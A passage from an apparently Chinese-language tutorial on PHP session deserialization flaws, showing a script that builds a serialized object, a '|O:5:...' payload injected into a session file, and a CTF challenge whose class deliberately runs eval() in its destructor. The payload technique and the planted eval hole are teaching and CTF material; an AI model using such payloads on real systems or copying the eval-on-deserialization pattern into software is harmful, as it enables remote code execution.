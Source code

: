利用脚本如下：

```php
<?php

class Hello
{
    public $name;

    function __wakeup()
    {
        echo "Who are you?";
    }

    function __destruct()
    {
        echo '<br>' . $this->name;
    }
}

$str = new Hello();
$str->name = "m0c1nu7";
echo serialize($str);
```

传入`session.php`的payload：`|O:5:"Hello":1:{s:4:"name";s:7:"m0c1nu7";}`

查看存储的`session`

```php
a:1:{s:7:"session";s:42:"|O:5:"Hello":1:{s:4:"name";s:7:"m0c1nu7";}";}
```

然后再次访问`class.php`

如果程序中设置了不同的`session`序列化引擎，通过控制`session`传入点，攻击者可以把构造好的序列化字符串拼接进`session`存储文件中，当再次调用`session`时触发并反序列化导致形成漏洞

### session反序列化练习

题目:http://web.jarvisoj.com:32784/index.php

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('sessiontest.php'));
}
```